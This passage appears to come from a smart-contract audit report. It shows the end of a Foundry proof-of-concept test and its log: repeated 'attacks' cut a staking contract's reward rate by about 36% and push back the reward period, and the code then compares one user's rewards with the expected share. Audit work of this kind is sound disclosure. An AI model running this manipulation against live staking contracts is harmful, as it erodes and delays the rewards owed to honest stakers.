 ```solidity
            uint256 rateReduction = ((originalRate - newRate) * 100) / originalRate;
            
            emit log_named_uint("Attack #", i + 1);
            emit log_named_uint("New reward rate", newRate);
            emit log_named_uint("Rate reduction percentage", rateReduction);
            emit log_named_uint("Period extension (days)", 
                (staking.getRewardPeriodFinish(address(rewardToken)) - originalPeriodFinish) / 86400);
            
            _advanceTime(12 hours);
        }
        vm.stopPrank();
        
        // Show impact on actual rewards for users at original period end
        _advanceTime(staking.getRewardPeriodFinish(address(rewardToken)) - block.timestamp);
        
        // Check rewards at end of extended period
        uint256 charlieReward = staking.earned(charlie, address(rewardToken));
        uint256 expectedReward = LEGITIMATE_REWARD_AMOUNT / 3; // Charlie's share (1/3)
        
        // Safe percentage calculation to avoid overflow
        uint256 percentage = charlieReward >= expectedReward ? 
            ((charlieReward - expectedReward) * 100) / expectedReward + 100 : 
            (charlieReward * 100) / expectedReward;
        
        emit log_named_uint("Charlie's rewards at end of extended period", charlieReward);
        emit log_named_uint("Expected rewards for Charlie", expectedReward);
        emit log_named_uint("Percentage of expected rewards", percentage);
        
        // Assert that rate manipulation was significant
        assertTrue(staking.getRewardRate(address(rewardToken)) < originalRate * 70 / 100, 
            "Rate should be reduced by at least 30%");
    }
}
```

```md
Ran 1 test for test/SymmStaking.t.sol:SymmStakingRewardManipulationTest
[PASS] testRewardRateManipulation() (gas: 420022)
Logs:
  Original reward rate: 16534391534391534
  Original period finish: 604801
  Attack #: 1
  New reward rate: 14172335600907029
  Rate reduction percentage: 14
  Period extension (days): 1
  Attack #: 2
  New reward rate: 13160025915127955
  Rate reduction percentage: 20
  Period extension (days): 1
  Attack #: 3
  New reward rate: 12220024064047386
  Rate reduction percentage: 26
  Period extension (days): 2
  Attack #: 4
  New reward rate: 11347165202329715
  Rate reduction percentage: 31
  Period extension (days): 2
  Attack #: 5
  New reward rate: 10536653402163306
  Rate reduction percentage: 36
  Period extension (days): 3
  Charlie's rewards at end of extended period: 3333333333333332300000
  Expected rewards for Charlie: 3333333333333333333333
```